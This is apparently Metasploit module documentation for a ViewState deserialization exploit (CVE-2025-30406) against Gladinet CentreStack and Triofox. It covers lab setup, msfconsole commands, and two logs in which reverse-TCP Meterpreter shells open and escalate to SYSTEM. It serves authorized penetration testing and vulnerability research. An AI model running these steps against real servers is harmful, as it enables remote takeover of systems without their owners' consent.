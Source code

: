## Vulnerable Application
A vulnerability in Gladinet CentreStack and Triofox application using hardcoded cryptographic keys for ViewState
could allow an attacker to forge ViewState data.
This can lead to unauthorized actions such as remote code execution.
Both applications make use of a hardcoded machineKey in the IIS web.config file, which is responsible for securing
ASP.NET ViewState data. If an attacker obtains the machineKey, they can forge ViewState payloads that pass integrity checks.
This can result in ViewState deserialization attacks, potentially leading to remote code execution (RCE) on the web server.

* Gladinet CentreStack versions up to 16.4.10315.56368 are vulnerable (fixed in 16.4.10315.56368).
* Gladinet Triofox versions up to 16.4.10317.56372 are vulnerable (fixed in 16.4.10317.56372)

The following releases were tested.

**Gladinet CentreStack and Triofox:**
* Gladinet CentreStack Build 16.1.10296.56315 on Windows Server 2019
* Gladinet Triofox Build 16.1.10296.56315 on Windows Server 2019

## Installation steps to install Gladinet CentreStack or Triofox Enterprise Editions
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Download an evaluation Windows Server iso image (2016, 2019 or 2022) and install it as a VM on your virtualization engine.
* Note: Google is your best friend on how to do this ;-)
* Download the [Gladinet CentreStack gui installer](https://www.centrestack.com/p/gce_latest_release.html) or...
* Download the [Gladinet Triofox gui installer](https://access.triofox.com/releases_history/).
* Note: For Triofox, you will need a free trail account to reach the installer page.
* Run the gui installer on your Windows VM.
* Reboot your VM and you should be able to access the application via `https://your_ip/portal/loginpage.aspx`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/windows/http/gladinet_viewstate_deserialization_cve_2025_30406`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Windows Command>`
- [ ] `exploit`
- [ ] you should get a `shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options defined for this module.

## Scenarios
### Gladinet CentreStack Build 16.1.10296.56315 on Windows Server 2019 -  Windows Command target
```msf
msf > use exploits/windows/http/gladinet_viewstate_deserialization_cve_2025_30406
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/http/gladinet_viewstate_deserialization_cve_2025_30406) > set rhosts 192.168.201.5
rhosts => 192.168.201.5
msf exploit(windows/http/gladinet_viewstate_deserialization_cve_2025_30406) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. CentreStack (Build 16.1.10296.56315)
[*] Executing Windows Command for cmd/windows/http/x64/meterpreter/reverse_tcp
[*] Sending stage (203846 bytes) to 192.168.201.5
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.5:49897) at 2025-05-02 20:36:56 +0000

meterpreter > getuid
Server username: IIS APPPOOL\portal
meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
###  Gladinet Triofox Build 16.1.10296.56315 on Windows Server 2019 - Windows Command target
```msf
msf exploit(windows/http/gladinet_viewstate_deserialization_cve_2025_30406) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf exploit(windows/http/gladinet_viewstate_deserialization_cve_2025_30406) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Triofox (Build 16.1.10296.56315)
[*] Executing Windows Command for cmd/windows/http/x64/meterpreter/reverse_tcp
[*] Sending stage (203846 bytes) to 192.168.201.6
[*] Meterpreter session 4 opened (192.168.201.8:4444 -> 192.168.201.6:56815) at 2025-05-02 19:55:59 +0000

meterpreter > getuid
Server username: IIS APPPOOL\portal
meterpreter > sysinfo
Computer        : WIN-HHRQENPDSRS
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : EVIL
Logged On Users : 14
Meterpreter     : x64/windows
meterpreter > pwd
c:\windows\system32\inetsrv
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
## Limitations
No limitations identified.
